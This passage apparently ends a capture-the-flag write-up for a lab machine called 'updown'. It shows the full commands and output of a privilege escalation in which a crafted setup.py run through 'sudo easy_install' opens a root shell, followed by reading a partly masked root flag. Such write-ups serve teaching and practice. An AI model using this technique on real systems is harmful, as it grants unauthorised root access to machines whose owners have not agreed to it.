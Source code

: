 ```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF

WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.Co2hiEXh3z
Writing /tmp/tmp.Co2hiEXh3z/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.Co2hiEXh3z/egg-dist-tmp-nK7eay

# whoami
root
```

## root.txt

```
root@updown:/tmp/tmp.Co2hiEXh3z# cd /root
root@updown:~# cat root.txt
31****************************af

```

**Thanks for reading!**

